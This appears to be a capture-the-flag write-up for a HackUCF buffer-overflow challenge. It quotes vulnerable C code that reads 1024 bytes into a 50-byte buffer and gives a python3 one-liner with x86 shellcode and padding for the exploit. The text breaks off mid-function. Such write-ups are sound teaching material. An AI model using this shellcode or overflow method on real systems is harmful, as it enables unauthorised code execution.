 # stack0 pt2
**Category:** Pwn

**Points:** 100

**Description:**

Author: C0deH4cker

nc ctf.hackucf.org 32101

This is the same program as stack0 part 1. Now, read the contents of flag2.txt.

> **Files:** stack0, stack0.c and libpwnableharness32.so

## Write-up
>Note: The scripts in this solution work with Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3, the line in the script that sets the the byte values of the code should be changed to (for example):
>
> send_str=$(python3 -c 'import sys; sys.stdout.buffer.write(b"\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + b"A"*26)')

This is a buffer overflow challenge, building on [Pwn_stack0pt1](https://github.com/neuronflicker/CTF/tree/master/UCF/Pwn_stack0pt1), and the code file was provided.

I ran the program to remind myself of how it worked:
```bash
> ./stack0
Debug info: Address of input buffer = 0xff862aed
Enter the name you used to purchase this program: fred
This program has not been purchased.
```
Looking at the code, and the `handle_connection()` function, it contains a `read()` call into a buffer of 50 chars (though the `read()` takes up to 1024 characters):
```c
static void handle_connection(int sock) {
	bool didPurchase = false;
	char input[50];
	
	printf("Debug info: Address of input buffer = %p\n", input);
	
	printf("Enter the name you used to purchase this program: ");
	read(STDIN_FILENO, input, 1024);
	
	if(didPurchase) {
		printf("Thank you for purchasing Hackersoft Powersploit!\n");
		giveFlag();
	}
	else {
		printf("This program has not been purchased.\n");
	}
}
```
In the first program, we overran the `input[]` buffer and it got us into the `giveFlag()` function:
```c
/* Filename of the first flag */
static const char* flagfile = "flag1.txt";

/* Send the user the contents of the first flag file. */
static void giveFlag(void) {
	char flag[64];
	FILE* fp = fopen(flagfile, "r");
	if(!fp) {
		perror(flagfile);
```